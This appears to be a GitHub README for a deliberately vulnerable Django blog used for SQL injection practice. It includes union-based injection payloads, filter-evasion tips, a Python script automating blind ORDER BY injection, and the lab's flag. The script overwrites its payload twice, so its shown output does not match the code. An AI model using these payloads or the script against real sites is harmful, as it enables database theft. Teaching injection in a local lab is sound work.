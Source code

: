 ⚠️ This project is for **educational and research purposes only**. Do not deploy or test on unauthorized systems.
# Vulnerable Blog Web Application (Docker)

This project is a vulnerable **blog web application** designed for **web penetration testing**. It is built using **Django**, with **MariaDB** as the database , all containerized using **Docker**.

## 🚨 Vulnerabilities

### 1️⃣ SQL Injection (Classic SQLi)
- A classic **SQL Injection vulnerability** is present in the details posts functionality.
### 2️⃣ Blind SQL Injection (ORDER BY Exploit)
- A **Blind SQL Injection** vulnerability exists in an `ORDER BY` clause.
- Since the response does not directly return database content, attackers must infer information by analyzing server behavior.

## 🏗️ Setup Instructions

1. **Clone the repository**  
  ```bash
   git clone https://github.com/Mgh-Zakariae/Vulnerable_web_app.git
   cd Vulnerable_web_app
```

1. **Build and run the Docker containers** : `sudo docker-compose up --build`
>You must ensure you have **Docker** and **docker-compose** installed. install docker

2. **Access the web application**  
    Open your browser and navigate to: http://localhost:8000`

---
## 🎯Exploitation Guide
### Classic SQL Injection

1. **Identify the Vulnerability**:
    - The application has an input field in http://localhost:8000/posts/my_posts/details/?id=18 that is vulnerable to SQL injection.
    - You can test this by entering a single quote (`'`) and observing if the application throws an error or behaves unexpectedly.

2. **Manual Exploitation**:
    - Instead of using automated tools like `sqlmap`, you can exploit the vulnerability manually.
    - The application is vulnerable to **Union-Based SQL Injection**.

3. **Enumerate the Database**:
    - Use a payload to determine the number of columns. For example:
        - **Using `UNION SELECT`**:
		- inject `NULL` values until the number of columns matches.
		- The query that does not produce an error reveals the number of columns.
```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL, NULL--
  ' UNION SELECT NULL, NULL, NULL--
```
- Use a payload to enumerate the database schema. For example:
		`' UNION SELECT NULL,NULL,...,schema_name FROM INFORMATION_SCHEMA.SCHEMATA-- -`
	>it only work if you add number of null values that match the number of columns

4. Detect if there is a filter:
	- After doing the previous step, you may notice that everything is not working, because there is a filter. you need to apply one of the filter evasion techniques.
		- you can try URL Encoding,  Hexadecimal Encoding, changing the case of SQL keywords like sEleT , fRoM ....

5. **Find the Flag Table**:
    
    - Once you know the method to bypass filter, the database name, the number of columns, enumerate the tables:
        
        ```
        ' UNION SELECT NULL,NULL,....,table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name' -- -
        ```
        
    - Look for a table named `flag`.
6. **Retrieve the Flag**:
    
    - The `flag` table contains a column named `flag`. Use the following payload to retrieve the flag:
        
        ```
        ' UNION SELECT NULL,NULL,.....,flag FROM flag -- -
        ```
    - The application will return the flag.
	- flag is `MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}`

---
### Blind SQL Injection

1. **Identify the Vulnerability**:
	- The application has an input field in http://localhost:8000/posts/my_posts?sort=date that is vulnerable to Blind SQL injection.
    - You can test this by entering a` title desc -- -` and observing if the application behaves unexpectedly

2. Manual Exploitation:
	-  you can use the following query that used with `order by` to found the flag : 
		- `CASE WHEN (select SUBSTRING(flag,0,lengh) from flag) = 'char' THEN title ELSE Date END `
	- if the web site sort the posts with *title* that means the character is correct (it's the first char. from the flag) , 
>			- SUBSTRING(column, start_position, length) :
>			- The `SUBSTRING` function extracts a portion of a string.
>			- Syntax: `SUBSTRING(string, start_position, length)`
>			- Example: `SUBSTRING('hello', 2, 3)` ,returns `'ell'`.

1. Automation of exploitation:
	-  to exploit this vulnerability by this query , we write a [script](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/b9b8f4ee46fc00aefbd1ed0e0de61f1d2fab4387/exploitation_script.py) to automate the process 
	- This script is an **automated Blind SQL Injection exploit** that brute-forces a flag character by character using the `ORDER BY` clause. It works by:
		1. **Generating a character set** (`array`) containing letters, numbers, and special symbols.
		2. **Sending an initial request** to determine the response when ordering by `title`.
		3. **Iterating through possible flag lengths (1 to 40 characters)** and testing each character in `array`.
		4. **Using a conditional SQL query** (`CASE WHEN ... THEN title ELSE category END`) to check if the substring of the flag matches the guessed characters.
		5. **Comparing responses**: If the response matches the original request with `title`, the guessed character is correct, and it is added to the `flag`.
		6. **Printing the extracted flag progressively** until fully retrieved.
```python
import string
import requests
import urllib.parse

# Create an array with all letters and numbers
array = list(string.ascii_letters + string.digits)
array.extend(list("{}()_-$@!#"))

url = "http://localhost:3000/posts/my_posts?sort="

# Define the session ID (replace with your actual session ID)
# we use this line to bypass the login check 
#example : cookies = {"sessionid": "wtncl32u1y4820dw6a1v9463x6gb5ewz"} 
cookies = {"sessionid": "__ADD_YOUR_SESSIONID_HERE__"}

req_with_title = requests.get(url + "title", cookies=cookies).text

flag = ""
print("#### Start Exploit")

for i in range(1, 40):
    for l in array:
        payload = f"CASE WHEN (select BINARY SUBSTRING(flag,1,{i}) from flag) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(table_name,1,{i}) from information_schema.tables LIMIT 1) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END"
        encoded_payload = urllib.parse.quote_plus(payload)  # Encode the payload properly

        req = requests.get(url + encoded_payload, cookies=cookies)
        if req.text == req_with_title:
            flag += l
            print(f"Current flag: {flag}")
            break
    if flag[-1] == '}':
        break

print(f"Final flag: {flag}")
```
> you can modify this script to enumerate more information about database , for example to enumerate name of database you can use this payload : `payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END`

- its output is  : 
```bash
Final flag: MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}
```


🔗 **GitHub:** [https://github.com/Mgh-Zakariae/Vulnerable_web_app.git] 
